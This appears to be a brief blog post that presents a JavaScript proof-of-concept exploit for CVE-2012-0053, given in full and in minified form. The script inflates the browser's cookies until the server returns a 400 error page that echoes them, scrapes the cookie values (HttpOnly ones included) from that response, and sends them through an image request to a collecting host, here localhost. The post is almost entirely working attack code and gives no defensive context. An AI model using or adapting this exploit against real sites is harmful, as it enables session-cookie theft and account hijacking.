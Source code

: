 ```yaml
---
layout: default
title: CVE-2012-0053 Exploit
---
```


Was it really necessary to write this out as a proof of concept for the client? Probably not.

{% highlight javascript %}
(function(d){
    desired_length = 8192;
    for(cookie_val = '=';cookie_val.length<=97;cookie_val+="A"){};
    for(i=100;(desired_length-d.cookie.length)>111;i++,d.cookie=i+cookie_val){};
    for(cookie_val="999=";(cookie_val.length + d.cookie.length + 9) <= desired_length;cookie_val += "A"){};
    d.cookie = cookie_val;
    d.cookie = "888=8";
    x = new XMLHttpRequest();
    x.onreadystatechange = function(){
        if (x.readyState == 4 && x.status == 400){
            cookie = x.responseText.split('888=8; ')[1].split("\n")[0];
            z = new Image();
            z.src='http://localhost/' + escape(cookie);
        };
    };
    x.open('GET',document.location.href+'baz',true);
    x.send();
}(document))

// (function(e){a=8192;for(b="=";b.length<=97;b+="A"){}for(i=100;(a-e.cookie.length)>111;i++,e.cookie=i+b){}for(b="999=";(b.length+e.cookie.length+9)<=a;b+="A"){}e.cookie=b;e.cookie="888=8";x=new XMLHttpRequest();x.onreadystatechange=function(){if(x.readyState==4&&x.status==400){c=x.responseText.split("888=8; ")[1].split("\n")[0];z=new Image();z.src="http://localhost/"+escape(c)}};x.open("GET",document.location.href+"baz",true);x.send()}(document));
{% endhighlight %}